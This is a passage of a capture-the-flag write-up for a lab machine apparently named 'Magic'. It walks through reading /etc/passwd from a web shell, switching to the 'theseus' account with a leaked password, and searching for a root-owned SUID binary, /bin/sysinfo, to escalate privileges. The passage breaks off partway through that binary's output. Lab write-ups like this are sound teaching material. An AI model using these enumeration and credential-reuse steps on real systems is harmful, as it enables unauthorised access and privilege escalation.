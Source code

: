 {% highlight none linenos %}
www-data@ubuntu:/var/www/Magic/images/uploads$ @@cat /etc/passwd | grep "theseus:"@@
<c/images/uploads$ cat /etc/passwd | grep "theseus:"
@@@theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash@@@
www-data@ubuntu:/var/www/Magic/images/uploads$ @@cat /etc/passwd | grep "admin:"@@
<gic/images/uploads$ cat /etc/passwd | grep "admin:"
{% endhighlight %}

We can check what users exist on the host by checking the `/etc/passwd` file. By doing this, we can conclude that `theseus` is a valid user account but that `admin` isn't. We can use `su` to try to log in to the `thesus` account using the two passwords we leaked earlier. Upon doing this, we discover that the password "Th3s3usW4sK1ng" is correct and we obtain a shell as `theseus`

{% highlight none linenos %}
www-data@ubuntu:/var/www/Magic/images/uploads$ @@su theseus@@
su theseus
Password: @@iamkingtheseus@@

@@@su: Authentication failure@@@
www-data@ubuntu:/var/www/Magic/images/uploads$ @@su theseus@@
su theseus
Password: @@Th3s3usW4sK1ng@@

@@@theseus@@@@ubuntu:/var/www/Magic/images/uploads$
{% endhighlight %}

By executing the command `groups` we can see that the `theseus` user is a member of the `theseus` and `users` group. The latter is a non-standard group and thus it could be interesting to search for directories and files owned by this group. We can do this using the command `find / -group users -exec ls -l {} \; 2>/dev/null`. 

The `-exec ls -l {} \;` portion of the command instructs `find` to execute `ls -l` for each discovered directory and file, to provide us with more information about it. The `2>/dev/null` portion of the command disables error messages by redirecting them to `/dev/null`. This is useful since it is likely that there are many folders that we can not access, which would result in a large number of `permission denied` errors.

{% highlight none linenos %}
theseus@ubuntu:/var/www/Magic/images/uploads$ @@groups@@
groups
theseus @@@users@@@
theseus@ubuntu:/var/www/Magic/images/uploads$ @@find / -group users -exec ls -l {} \; 2>/dev/null@@       
<$ find / -group users -exec ls -l {} \; 2>/dev/null
-rw@@@s@@@r-x--- 1 @@@root users@@@ 22040 Oct 21  2019 @@@/bin/sysinfo@@@
theseus@ubuntu:/var/www/Magic/images/uploads$
{% endhighlight %}

From the output of our search, we discover that the file `/bin/sysinfo` has the SUID bit set and is owned by `root`. This means that accounts in the `users` group can execute this binary as the `root` user. If we can trick this binary into handing us a bash shell, we can compromise the `root` account since this bash shell would be running in the context of the `root` user. If we run this binary, we can see that it appears to provide information about the target host. Among other things, it lists CPU info and information about available memory, as can be seen below.

{% highlight none linenos %}
theseus@ubuntu:/var/www/Magic/images/uploads$ @@/bin/sysinfo@@
[...]
====================CPU Info====================
processor       : 0
vendor_id       : AuthenticAMD
cpu family      : 23
model           : 49
model name      : AMD EPYC 7302P 16-Core Processor
stepping        : 0
microcode       : 0x8301038
cpu MHz         : 2994.374
cache size      : 512 KB
physical id     : 0